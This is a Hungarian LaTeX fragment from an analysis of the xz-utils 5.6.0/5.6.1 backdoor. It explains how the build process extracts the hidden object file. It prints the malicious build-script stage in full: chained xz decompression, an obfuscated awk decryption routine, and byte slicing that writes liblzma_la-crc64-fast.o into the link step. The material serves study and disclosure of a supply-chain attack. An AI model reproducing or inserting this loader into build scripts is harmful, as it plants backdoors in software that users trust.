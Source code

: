 \documentclass[11pt]{article}
\begin{document}
\subsubsection{A backdoor kibontása}
Amint arra Andres az eredeti e-mailben is rámutatott, egy bizonyos ponton egy .o fájl kibontásra kerül, és beleszövődik a fordítási/linkelési folyamatba, ezért az alábbi kód felel:
\begin{lstlisting}[language=bash]
N=0
W=88664
else
N=88664
W=0
fi
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<8192;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
\end{lstlisting}
Az \textbf{5.6.0 és 5.6.1} verziók közti különbség a payload méretek, amelyek \textbf{5.6.0} verzióban \textbf{88792}, az \textbf{5.6.1} verzióban pedig \textbf{88664}, illetve változik egy érték az \textbf{awk} szkriptben is, ezt a későbbiekben jobban kifejtem.

Mint az előző lépésekben is, az adatok kinyerése parancsok láncolatán keresztül át történt, ahol az előző parancs kimenet a következő parancs bemenete. Emellett nagyon sok lépés hasonlíta az \autoref{subsec:first-stage}-ben leírtakra.
\end{document}
